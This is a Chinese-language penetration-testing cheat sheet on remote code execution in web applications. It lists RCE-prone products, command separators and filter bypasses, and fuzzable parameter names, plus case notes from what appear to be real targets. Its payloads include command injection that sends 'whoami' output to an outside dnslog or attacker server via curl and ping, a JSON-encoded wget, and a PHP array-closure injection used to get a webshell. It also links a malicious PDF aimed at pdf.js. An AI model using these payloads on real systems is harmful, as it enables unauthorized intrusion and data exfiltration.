# RCE原理
 远程代码执行(RCE)使攻击者能够通过注入攻击执行恶意代码。代码注入攻击与命令注入攻击不同。攻击者的成果取决于服 务器端的限制,在某些情况下，攻击者可能能够从代码注入升级为命令注入。远程代码攻击可能会完全破坏易受攻击的Web 应用程序以及Web服务器。需要注意的是，几乎每种编程语言都有代码执行函数.  



# 常见可以命令执行的漏洞
1. Thinkphp rce 
2. Log4j2 
3. Fastjson反序列化 
4. Weblogic 
5. Imagemagick组件rce(CVE-2016-3714 ) 
6. GhostScript Rce 
7. Shiro Struts2 

推荐文章:https://xz.aliyun.com/t/9628  

# 常用的一些命令
 一些挖掘rce常用的 

Window下||和& 

linux下||和&和； [命令执行bypass.docx](https://www.yuque.com/attachments/yuque/0/2025/docx/26698826/1751776858716-f3ac4edd-cbf0-4bef-a552-1b13d3f1a252.docx)

Linux下过滤空格可以使用:${IFS},$IFS,$IFS$9 

JSON格式下的测试: \u000awget\u0020 http://服务器地址 

Linux下可以包括反引号，windows下不可以。 

Linux下正常测试rce: 

curl http://服务器地址/`whoami` 

ping `whoami`.服务器地址  

1.  Window系统 ping|dir 执行dir命令    

2.  ipconfig||dir 执行ipconfig，但如果前面命令错误就会执行dir    

3.  Window系统 ping&&dir 当ping执行完之后执行dir命令    
  

4. linux  


# 常见漏洞的参数
 exec=payload={payload} payload={payload} command={payload} execute{payload} include={payload} jump={payload} reg={payload} func={payload} option={payload} process={payload} read={payload} req={payload} exe={payload} system={payload} print={payload} id={payload} user={payload} from={payload} query={payload} s={payload} blogId={payload} mode={payload} firstname={payload} locale={payload} sys={payload} ping={payload} exclude={payload} code={payload} do={payload} arg={payload} load={payload} step={payload} function={payload} feature={payload} module={payload} run={payload} email={payload} username={payload} to={payload} search={payload} q={payload} shopId={payload} phone={payload} next={payload} lastname={payload} cmd={payload}  

# 思路
## 文件上传重命名
1.  当上传一个文件的时候如果有参数更改文件名的时候，就要想到是不是调用cmd去重置文件名    


## 数组可控导致的RCE，参考[https://xz.aliyun.com/t/10391](https://xz.aliyun.com/t/10391)  
 此处猜测后端将文件名以数组的方式进行控制（在拿到webshell后也证明了这个猜想是正确的） 将可上传的文件名加入php，随后上传拿到Webshell 查看对应配置文件，发现可上传后缀名是在数组当中，此处还可以利用插入闭合数组进行Getshell    
` payload：siteName=11111').phpinfo();//  `  
 来看看后端如何处理的,因为return array的原因 必须加上字符串连接符"."   再登陆后台查看Payload是否执行  
## ping命令导致rce  
点击硬件诊断功能，发现数据包会对内网地址探活。    

2.  看到ping的字眼就要注意了，这个包很明显就是在ping 192.168.5.1这个包，把192.168.5.1改成 192.168.5.1|curl `whoami`.vi50t3.dnslog.cn 看看会怎么样    


##  播放文件导致rce    
 这是试听语音的一个功能，但是点击试听返回的数据包有点不正常。    
  

3.  一般的这种文件返回的是图一的格式，但是它返回OK，说明这个是一个接口，拆测后端是在读取这个文件。    


## pdf.js 进行命令执行  
[malicious.pdf](https://www.yuque.com/attachments/yuque/0/2025/pdf/26698826/1751776859039-20ebe2c7-fa57-4bc1-906f-cd62b3b78325.pdf)
